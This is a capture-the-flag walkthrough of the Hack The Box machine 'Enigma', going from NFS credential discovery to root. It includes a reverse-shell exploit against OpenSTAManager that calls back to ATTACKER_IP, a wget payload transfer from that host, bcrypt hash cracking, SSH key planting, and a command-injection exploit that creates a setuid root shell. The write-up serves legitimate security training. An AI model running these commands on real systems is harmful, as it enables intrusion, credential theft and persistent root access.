Hack The Box - Enigma
Summary
Scanning the target network reveals several interesting services. We obtain email credentials by mounting an NFS share to a local directory and reading a PDF stored inside it. From there we pivot to another user who reuses the same password, which grants us admin access to a vulnerable version of a web panel and lets us drop a reverse shell as www-data. Next, we extract database users and escalate our privileges to the user haris, finally landing an interactive shell. We then discover a service running internally on port 1337 as root, which we reach through a reverse SSH tunnel. This service turns out to be vulnerable to command execution as root, ultimately giving us full root access.
Reconnaissance
Let's start by scanning the target network.
└─$ sudo nmap -p- -sV TARGET_IP┌──(londra㉿kali)-[~]
└─$ sudo nmap -p- -sV 10.129.68.219
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-13 15:51 +0200
Nmap scan report for enigma.htb (10.129.68.219)
Host is up (0.015s latency).
Not shown: 65522 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
80/tcp open http nginx 1.24.0 (Ubuntu)
110/tcp open pop3 Dovecot pop3d
111/tcp open rpcbind 2-4 (RPC #100000)
143/tcp open imap Dovecot imapd (Ubuntu)
993/tcp open ssl/imap Dovecot imapd (Ubuntu)
995/tcp open ssl/pop3 Dovecot pop3d
2049/tcp open nfs_acl 3 (RPC #100227)
38649/tcp open mountd 1-3 (RPC #100005)
38985/tcp open nlockmgr 1-4 (RPC #100021)
39685/tcp open mountd 1-3 (RPC #100005)
47971/tcp open status 1 (RPC #100024)
57181/tcp open mountd 1-3 (RPC #100005)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.60 secondsSeveral interesting services came to light: 22 (ssh), 80 (http), 2049 (Network File System), and a mail server. Nmap also reveals that the target's hostname is enigma.htb, so let's add it to /etc/hosts.
Enumeration
Port 80 simply shows a template site with no back-end functionality. Let's therefore check which world-readable directories are exposed by the NFS share with the following command:
└─$ showmount -e enigma.htb
It shows a world-readable folder. We can try and mount it to a folder on our machine. Execute the following commands:
└─$ sudo mkdir /mnt/nfs└─$ sudo mount -t nfs enigma.htb:/srv/nfs/onboarding /mnt/nfsNow if we list the content of /mnt/nfs:

Let's open the PDF file and examine its content.

Not only does this show us Kevin's E-mail password, it also gives us the subdomain of the E-mail client. So let's add mail001.enigma.htb to /etc/hosts as well.
We can log in using the credentials we found and view Kevin's one and only E-mail.

This E-mail does provide us with one key piece of information: another known user on the system. I poked around for a while and, after running out of options, tried reusing Kevin's password for Sarah, which worked...
And, just like Kevin, Sarah has one received E-mail, as shown in the image.

This E-mail provides us with another subdomain (support_001.enigma.htb) and admin credentials! Let's add the new subdomain to /etc/hosts as well. The new domain appears to host a platform called "OpenSTAManager", and we can log in using the credentials from the email:

I searched around the application and found a backup feature, but it didn't yield any useful results. After searching for way to long, I checked the version of the OpenSTAManager:

Exploitation
Some searching revealed that this version (2.9.8) of OpenSTAManager is vulnerable to CVE-2026-38751. I found a proof of concept that exploits the vulnerability by abusing a file-upload feature. I used the exploit to gain a shell with the following command:
└─$ ./openstamanager-rce-exploit --url http://support_001.enigma.htb --user admin --password ADMIN_PASSWORD --interactive --lhost ATTACKER_IP --lport 4444
As you can see, I got a reverse shell. I highly recommend pressing CTRL + Z and then running stty raw -echo; fg, as this will make the shell much easier to work with.
Post-Exploitation
I read the contents of /etc/passwd and found that, of all the users with a home directory, "haris" is the only one with a login shell. So he'll be my target.
I listed the content of the OpenSTAManager root directory.
www-data@enigma:~/html/openstamanager$ ls
CHANGELOG.md assets info.php pdfgen.php
FUNDING.yml checksum.json lib plugins
KNOWN-ISSUES.md composer.json locale publiccode.yml
LICENSE composer.lock log.php rector.php
README.md config logs reset.php
REVISION config.example.php mail.php settings.json
SECURITY.md config.inc.php manifest.json shared_editor.php
VERSION config.php mariadb_10_x.json shortcuts.php
actions.php controller.php modules src
add.php core.php modules.json templates
ajax.php cron.php mysql.json token_login.php
ajax_complete.php editor.php mysql_8_3.json update
ajax_dataload.php files node_modules vendor
ajax_search.php gulpfile.js oauth2.php view.php
ajax_select.php include oauth2_login.php views.json
api index.php package.json yarn.lockconfig.inc.php stood out to me, as it had the highest chance of containing credentials, and indeed, it held database credentials.

Privilege Escalation (Haris)
I tried to log in as haris using the password, but that didn't work. What did work, however, was logging into MySQL:
└─$ mysql -u brollin -p'db_pass_here'Let's see what databases we have access to:
└─$ show databases;
Let's use the openstamanager database and list its tables:
└─$ use openstamanager;└─$ show tables;By default, OpenSTAManager stores its users in the zz_users table, so let's list the contents of zz_users using the following query:
└─$ select * from zz_users;
Haris's password is hashed with bcrypt. This hash can be cracked using hashcat, so that's exactly what I did:
└─$ hashcat -m 3200 hash.txt rockyou.txt
We cracked haris's hash, let's try and change to user haris using the found password:

We're now logged in as haris. To get an SSH connection as haris, we execute the following chain of commands:
On our attacking machine:
└─$ ssh-keygen -t ed25519 -f ./haris_key -N ""Copy the contents of haris_key.pub on the attacking machine, then use it to run the following command on the target:
└─$ mkdir ~/.ssh && echo "haris_key.pub_content" > ~/.ssh/authorized_keysOn our attacking machine:
└─$ chmod 600 haris_key && ssh -i haris_key haris@enigma.htb
The user flag is located in haris's home directory.

Privilege Escalation (Root)
Once logged in with new privileges, it's important to always get some situational awareness. Part of that is checking which network services are running and listening. We can do so with the following command:
└─$ ss -tulpnOne interesting finding is the service listening on port 1337. It didn't come up in the Nmap scan, which means it's only accessible internally. Luckily, we can still reach it with a reverse SSH tunnel. Execute the following command:
└─$ ssh -i haris_key -L 1337:127.0.0.1:1337 haris@enigma.htbNow we're actually able to access that service locally by navigating to http://127.0.0.1:1337.

We can see that OliveTin version 3000.10.0 is running on port 1337. Learning from my earlier mistake of only checking the software version half an hour in, I looked this one up right away. It turns out this version of OliveTin is vulnerable to CVE-2026-27626. Before potentially wasting time, though, let's first confirm which user runs OliveTin on the target:
└─$ ps aux | grep OliveTin
The process is running as root, so any command it executes will run as root too. I found a good PoC on GitHub.
We need to get the PoC onto the target machine. Since most CTF boxes don't have internet access, we first download it to our attack box, then transfer it over. Execute the following chain of commands on the attacker machine:
└─$ git clone https://github.com/0xh7ml/CVE-2026-27626-PoC.git└─$ zip -r poc.zip CVE-2026-27626-PoC└─$ sudo python3 -m http.server 80And now on the target machine:
└─$ cd ~ && wget http://ATTACKER_IP/poc.zip && unzip poc.zip && cd CVE-2026-27626-PoCNow lets run the exploit:
└─$ python3 CVE-2026.27626.py -u http://127.0.0.1 -p 1337 --cmd "cp /bin/bash /tmp/rootbash && chmod 6755 /tmp/rootbash"Now, entering /tmp/rootbash -p gives us root access, and with it, permission to read /root/root.txt:

That's it, we achieved root! I hope you liked it just as much as I did. Have a nice rest of your day!